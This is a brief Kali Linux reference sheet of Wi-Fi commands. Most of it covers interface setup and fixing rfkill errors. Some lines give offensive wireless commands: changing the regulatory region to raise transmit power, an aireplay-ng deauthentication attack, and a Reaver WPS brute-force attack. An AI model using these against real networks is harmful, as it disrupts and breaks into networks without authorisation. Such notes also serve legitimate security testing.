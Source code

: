 ## Kali basic

#### Change region to increase Tx power:
- check region: `iw reg get`
- set region `iw reg set BO`

### Init

- enable monitor mode: `airmon-ng start wlan0`

#### Up interface and connect to Network:

- Show devices:  `iw dev`
- Check device status: `ip link show wlan0`
- Enable a network interface:  `ifconfig wlan0 up` or `ip link set wlan0 up`
- Check the connection status – WiFi network from command line `iw wlan0 link`


>Based on [http://www.blackmoreops.com/2014/09/18/connect-to-wifi-network-from-command-line-in-linux/](http://www.blackmoreops.com/2014/09/18/connect-to-wifi-network-from-command-line-in-linux/)

- Set IP address: `ifconfig wlan0 192.168.0.77` or `ip address add 192.168.0.77 dev wlan0`


### Scan:

- Show all networks around `iw waln0 scan` or `iwlist wlan0 scan`
    - grep most useful info from there: `iw wlan0 scan | grep -E '(SSID|^BSS|WPS|WEP|WPA|RSN)|signal'`
- Show networks with open WPS: `wash -i mon0`

- Show hidden ESSID:
    1. Scan channel n: `airodump-ng -c n  mon0`
    2. Make a deauth attack: `aireplay-ng -0 2 -a $SSID mon0`


### WPS attack:
- Reaver attack: `reaver -i mon0 -b $SSID -vv -d 5 -N -S -E`

- Sniff-detecting: `nmap --script=sniffer-detect 192.168.x.0/24`

### Resolve errors: 

- Durring `ifconfig wlan0 up` appears error 'RTNETLINK answers: Operation not possible due to RF-kill'
    >http://www.geekmind.net/2011/01/linux-wifi-operation-not-possible-due.html

        rfkill list all 
      
> if "Soft blocked: yes" -> then

```
      rfkill unblock wifi
      rfkill list all
```

